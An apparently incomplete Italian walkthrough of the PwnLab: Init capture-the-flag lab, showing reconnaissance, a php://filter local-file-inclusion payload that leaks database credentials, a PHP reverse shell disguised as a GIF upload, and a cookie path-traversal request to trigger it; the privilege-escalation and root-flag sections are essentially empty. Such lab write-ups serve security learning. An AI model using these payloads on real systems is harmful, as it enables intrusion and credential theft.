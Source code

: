 # PWN_LAB INIT


# NETDISCOVER 👨‍💻
Prima di tutto eseguiamo un netdiscover per scoprire l'indirizzo ip della macchina 
```
netdiscover 10.211.55.0/24
Currently scanning: Finished! | Screen View: Unique Hosts
3 Captured ARP Req/Rep packets, from 2 hosts. Total size: 126
_____________________________________________________________________________ 
IP At MAC Address Count Len MAC Vendor / Hostname
----------------------------------------------------------------------------- 
10.211.55.1 00:1c:42:00:00:18 1 42 Parallels, Inc. 
10.211.55.17 00:1c:42:4d:69:40 2 84 Parallels, Inc.
```

Il primo indirizzo é il nostro (macchina kali), la macchina da attaccare é il secondo ip della lista.

# NMAP 🔍
```
nmap -sV -sC 10.211.55.17
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-16 15:02 CEST Nmap scan report for pwnlab-vulnhub.shared (10.211.55.17)
Host is up (0.00012s latency).
Not shown: 997 closed ports
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.10 ((Debian)) |_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp open rpcbind 2-4 (RPC #100000)
| rpcinfo:
| program version port/proto service
...
3306/tcp open mysql MySQL 5.5.47-0+deb8u1
| mysql-info:
| Protocol: 10
| Version: 5.5.47-0+deb8u1
| Thread ID: 39
| Capabilities flags: 63487
| Some Capabilities: SupportsLoadDataLocal, Support41Auth, IgnoreSigpipes, SupportsTransactions, Speaks41ProtocolOld, IgnoreSpaceBeforeParenthesis, DontAllowDatabaseTableColumn, ConnectWithDatabase, InteractiveClient, FoundRows, Speaks41ProtocolNew, ODBCClient, SupportsCompression, LongPassword, LongColumnFlag, SupportsAuthPlugins, SupportsMultipleResults, SupportsMultipleStatments
| Status: Autocommit
| Salt: =sK^vV+r|=Vxyvdt;gv<
|_ Auth Plugin Name: mysql_native_password
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . Nmap done: 1 IP address (1 host up) scanned in 6.71 seconds
```
Visto che abbiamo trovato la porta 80 aperta, apriamo un browser e vediamo cosa troviamo.  
Troviamo una pagina di login e una di "upload" dove poter caricare dei dati, ma solo se loggati.

# LOGIN PAGE 🛠

<!-- qui manca il perché di questa cosa! -->
```
curl -s http://10.211.55.17/?page=php://filter/convert.base64-encode/resource=config
```
Analizziamo il comando: stiamo eseguendo una filter del codice php e lo stiamo codificando in modo tale che il broswer non interpreti il php, cosí da farci restituire il codice php come stringa codificata. In seguito decodifichiamo quello che é stato codificato in base64.
```
<html>
<head>
<title>PwnLab Intranet Image Hosting</title>
</head>
<body>
<center>
<img src="images/pwnlab.png"><br />
[ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ] <hr/><br/> PD9waHANCiRzZXJ2ZXIJICA9ICJsb2NhbGhvc3QiOw0KJHVzZXJuYW1lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVRS center>
</body>
</html>
```
Decodifichiamo
```
echo "PD9waHANCiRzZXJ2ZXIJICA9I...lID0gInJvb3QiOw0KJHBhc3N3b3JkID0gIkg0dSVR" | base64 -d
```
Otteniamo il codice php in chiaro.
```
<?php
$server = "localhost"; 
$username = "root"; 
$password = "H4u%QJ_H99"; 
$database = "Users";
?>
```
Proviamo ad entrare su mysql con queste credenziali
```
mysql -h 10.211.55.17 -u root -p
Enter password:
Welcome to the MariaDB monitor. Commands end with ; or \g. Your MySQL connection id is 114764
Server version: 5.5.47-0+deb8u1 (Debian)
...
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.002 sec)
...
MySQL [(none)]> use Users;
...
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
MySQL [Users]> Select * from users; 
+------+------------------+
| user | pass             | 
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== | 
| kane | aVN2NVltMkdSbw== | 
+------+------------------+
```
Anche le password sono codificate in base64.  
Proviamo a loggarci con  
* user: kent  
* password: Sld6WHVCSkpOeQ== (decodificata ->) JWzXuBJJNy  

Perfetto, ci siamo loggati ma notiamo che possiamo caricare solo immagini, quindi dobbiamo trovare il modo di caricare la nostra reverse shell come una immagine.
# REVERSE SHELL 🔁
Per caricare la reverse shell, prendiamo il file in php (/usr/share/webshells/php-reverse-shell.php), modifichiamolo con i nostri parametri e aggiungiamo in testa l'header dei file GIF: ```GIF89``` e cambiamo l'estensione in ```.gif```  
Carichiamo la nostra reverse shell modificata e facciamo partire netcat sulla nostra macchina.  
Sfruttando il browser nella cartella /uploads troviamo il nostro file.  
Per far esegure la shell caricata sul web server sfruttiamo burpsuite (ma anche curl va bene) eseguendo la seguente GET. (occhio al nome del file che abbiamo caricato nel cookie!)
<!-- anche qui manca il perché di questa cosa!-->
```
GET / HTTP/1.1
Host: 10.211.55.17
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.92 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/ signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: lang=../upload/3eaa8ef68810b5720fdb48484d9b24ff.gif
If-None-Match: W/"17c7-5a5e2980343c0"
If-Modified-Since: Mon, 18 May 2020 02:05:15 GMT
Connection: close
```
# PRIVILEDGE ESCALATION 💵

<!-- si doveva modificare il comportamento di cat e poi chiamare un eseguibile che potevamo chiamare senza sudo: echo “/bin/sh/” > cat PATH=.:$PATH -->

# ROOT FLAG 🏴‍☠️
